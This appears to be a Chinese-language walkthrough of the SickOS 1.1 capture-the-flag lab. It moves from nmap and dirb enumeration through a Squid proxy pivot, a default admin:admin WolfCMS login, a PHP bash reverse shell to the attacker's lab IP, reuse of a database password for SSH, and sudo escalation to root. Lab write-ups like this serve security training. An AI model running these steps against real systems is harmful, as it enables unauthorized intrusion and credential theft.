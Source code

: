 ### 主机发现和nmap扫描

```bash
nmap -sn 192.68.56.0/24
```

靶机ip：192.168.56.105

```bash
nmap -sT --min-rate 10000 192.168.56.105
```

```
PORT     STATE  SERVICE
22/tcp   open   ssh
3128/tcp open   squid-http
8080/tcp closed http-proxy
```

```bash
nmap -sT -sV -sC -O -p22,3128,8080 192.168.56.105
```

```
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```

### web渗透

因为80端口没开，8080也是关闭状态，访问3128端口

![image-20240605200003585](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240605200003585.png)

就告诉我们url是无效的，得到关键词`squid/3.1.19`

![image-20240605200322441](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240605200322441.png)

squid是一个代理工具，尝试让3128做代理访问80端口

> # BLEHHH!!!

发现成功访问

#### 目录扫描

```bash
dirb http://192.168.56.105 -p http://192.168.56.105:3128
```

```
---- Scanning URL: http://192.168.56.105/ ----
+ http://192.168.56.105/.bash_history (CODE:200|SIZE:1442)
+ http://192.168.56.105/cgi-bin/ (CODE:403|SIZE:290)
+ http://192.168.56.105/connect (CODE:200|SIZE:325)
+ http://192.168.56.105/index (CODE:200|SIZE:21)
+ http://192.168.56.105/index.php (CODE:200|SIZE:21)
+ http://192.168.56.105/robots (CODE:200|SIZE:45)
+ http://192.168.56.105/robots.txt (CODE:200|SIZE:45)
+ http://192.168.56.105/server-status (CODE:403|SIZE:295)
```

robots.txt下发现

> User-agent: *
> Disallow: /
> Dissalow: /wolfcms

发现是wolfcms

#### wolfcms

![image-20240605201119181](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240605201119181.png)

寻找管理员登录页面，直接百度就行

这个cms漏洞很多，看了一下找到后台登录页面

```
http://192.168.56.105/wolfcms/?/admin/login
```

弱密码`admin:admin`成功登录

发现page里可以直接写php代码，files功能里也可以上传文件

### 系统立足点

反弹shell，得到系统立足点

```php
system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'");
```

得到`www-data`

查看目录，发现config.php

```
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```

得到一组凭据`root:john@123`

我们nmap扫描并没有扫到3306端口，猜测应该不能进入数据库

我们还剩一个22端口没有利用，猜测可能是ssh的密码

查看passwd文件，寻找可登录用户

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
```

第一个可疑的用户就是`sickos`，因为靶机名字就是sickos，尝试ssh登录

拿到sickos用户

```bash
ssh sickos@192.168.56.105
```

### 提权

```bash
sickos@SickOs:~$ sudo -l
[sudo] password for sickos: 
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
```

相当于拿下root了

```bash
sickos@SickOs:~$ sudo /bin/bash
root@SickOs:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:~# whoami
root
root@SickOs:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN qlen 1000
    link/ether 00:0c:29:3c:d2:44 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.105/24 brd 192.168.56.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fe3c:d244/64 scope link 
       valid_lft forever preferred_lft forever
```

查看flag

```bash
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt 
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

